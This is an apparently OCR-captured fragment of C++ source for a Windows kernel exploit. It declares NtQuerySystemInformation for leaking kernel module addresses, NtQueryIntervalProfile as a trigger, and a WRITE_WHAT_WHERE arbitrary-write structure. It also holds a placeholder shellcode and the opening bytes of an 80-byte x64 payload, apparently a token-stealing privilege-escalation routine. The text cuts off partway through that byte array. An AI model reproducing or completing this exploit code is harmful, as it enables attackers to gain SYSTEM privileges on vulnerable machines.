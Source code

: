 ```cpp
	ProfileSpecialInstructions = 18,
	ProfileTotalCycles = 19,
	ProfileIcacheIssues = 20,
	ProfileDcacheAccesses = 21,
	ProfileMemoryBarrierCycles = 22,
	ProfileLoadLinkedIssues = 23,
	ProfileMaximum = 24
};

typedef NTSTATUS (*_NtQueryIntervalProfile)(
	IN _KPROFILE_SOURCE      ProfileSource,
	OUT PULONG              Interval);

typedef struct SYSTEM_MODULE {
	ULONG                Reserved1;
	ULONG                Reserved2;
#ifdef _WIN64
	ULONG				Reserved3;
#endif
	PVOID                ImageBaseAddress;
	ULONG                ImageSize;
	ULONG                Flags;
	WORD                 Id;
	WORD                 Rank;
	WORD                 w018;
	WORD                 NameOffset;
	CHAR                 Name[MAXIMUM_FILENAME_LENGTH];
}SYSTEM_MODULE, * PSYSTEM_MODULE;

typedef struct SYSTEM_MODULE_INFORMATION {
	ULONG                ModulesCount;
	SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
	SystemModuleInformation = 11
} SYSTEM_INFORMATION_CLASS;

typedef NTSTATUS(*_NtQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID                    SystemInformation,
	ULONG                    SystemInformationLength,
	PULONG                   ReturnLength
	);

typedef struct _WRITE_WHAT_WHERE {
	void* What;
	void* Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;

/*

# define SHELLCODE_SIZE 3

char pShellcode[] = {
	0x90, 0XCC, 0xc3
};
*/

# define SHELLCODE_SIZE 80

char pShellcode[] = {
	0x48, 0x31, 0xC0, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC9, 0x65, 
```